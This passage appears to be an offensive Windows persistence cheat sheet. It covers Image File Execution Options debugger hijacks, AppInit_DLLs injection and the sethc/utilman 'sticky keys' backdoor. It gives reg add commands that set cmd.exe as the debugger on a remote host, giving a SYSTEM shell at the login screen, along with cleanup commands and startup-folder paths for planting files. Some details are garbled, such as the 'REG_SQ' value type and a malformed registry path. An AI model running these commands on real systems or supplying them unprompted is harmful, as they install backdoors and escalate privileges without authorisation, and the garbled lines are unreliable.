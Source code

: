 ##### List Image File Execution Options (Debugger file executed when the target file is run)

```
    HKLM\Software\MS\WindowsNT\CurrentVersion\Image File Execution Options\notepad.exe\debugger(REG_SZ = cmd.exe)
```

##### AppInit_DLLs

Load custom DLLs each time a program runs (If it loads USER32.dll). This is checked by most AV!

This value corresponds to files being loaded through the AppInit_DLLs Registry value. The AppInit_DLLs registry value contains a list of dlls that will be loaded when user32.dll is loaded. As most Windows executables use the user32.dll, that means that any DLL that is listed in the AppInit_DLLs registry key will be loaded also. This makes it very difficult to remove the DLL as it will be loaded within multiple processes, some of which can not be stopped without causing system instability. The user32.dll file is also used by processes that are automatically started by the system when you log on. This means that the files loaded in the AppInit_DLLs value will be loaded very early in the Windows startup routine allowing the DLL to hide itself or protect itself before we have access to the system.

```
    HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Windows\AppInit_DLLs
```

##### No-reboot sethc/utilman option using a "debugger" key

Navigate to HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
Make key called "sethc.exe"
Make a REG_SQ value called "Debugger"
Assign it "c:\windows\system32\cmd.exe" as the value
Hit SHIFT 5 times and get a shell as nt authority\system

```
    reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
    reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
```

Remove the debugger key

```
    reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
    reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /f
```

#### File Storage Locations

##### Startup Folders

```
    #All Users - Windows XP
    C:\Documents and Settings\All Users\Start Menu\Programs\Startup

    #All Users - Windows Vista+
    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

    #User Profile - Windows XP
    C:\Documents and Settings\<USERNAME>\Start Menu\Programs\Startup

    #User Profile - Windows Vista+
    C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
